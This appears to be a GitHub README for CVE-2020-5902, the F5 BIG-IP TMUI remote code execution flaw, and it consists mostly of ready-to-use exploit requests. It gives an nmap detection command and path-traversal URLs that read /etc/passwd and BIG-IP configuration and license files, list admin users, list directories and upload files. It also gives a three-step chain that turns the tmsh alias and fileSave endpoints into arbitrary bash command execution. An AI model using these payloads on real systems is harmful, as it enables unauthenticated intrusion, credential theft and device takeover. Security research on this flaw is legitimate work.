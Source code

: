 OPEN README.md FOR BETTER READ :)

The Traffic Management User Interface (TMUI) present in F5 BIG-IP versions 15.0.0-15.1.0.3, 14.1.0-14.1.2.5, 13.1.0-13.1.3.3, 12.1.0-12.1.5.1, and 11.6.1-11.6.5.1 is vulnerable to a Remote Code Execution (RCE) vulnerability that allows unauthenticated attackers, or authenticated users, with network access to the TMUI, to execute arbitrary system commands, create or delete files, disable services, and/or execute arbitrary Java code.



Also You can send /hsqldb; as GET request and it show you


</head><body><h1>HSQL Database Engine Servlet</h1>
The servlet is running.<p>
The database is also running.<p>
Database name: mem:.<p>
Queries processed: 0<p>


#Manual_Test

sudo nmap --script=http-vuln-cve2020-5902.nse -p PORT IP

https://IP/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd
https://IP/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/hosts
https://IP/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.license
https://IP/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/config/bigip.conf
https://IP/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin
directoryList

List files within a folder specified through the directoryPath URL parameter

https://HOST/tmui/login.jsp/..;/tmui/locallb/workspace/directoryList.jsp?directoryPath=/tmp/

fileRead

Read a file content specified through the fileName URL parameter

https://HOST/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd

fileSave

Upload a file specified through the fileName URL parameter and content of the file specified through the content URL parameter, using POST method.

https://HOST/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/test&content=test

tmshCmd

Execute predefined (based on their documentation) system commands through the command URL parameter

https://HOST/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user

#You can achieve Remote Code Execution on the BIG-IP TMUI by chaining the fileSave and tmshCmd utility modules.

First, you need to send this payload in order to be able to execute bash commands:

https://HOST/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list+command+bash (GET method)
Next, you’ll have to upload a file containing the command you want to execute on the system:

https://HOST/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp?fileName=/tmp/rce&content=whoami (POST method) - Here we uploaded the /tmp/rce file containing the whoami command.
Finally, you must list the file and you’ll see the output of the executed command reflected in the file content:

https://HOST/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+/tmp/rce

(GET method)








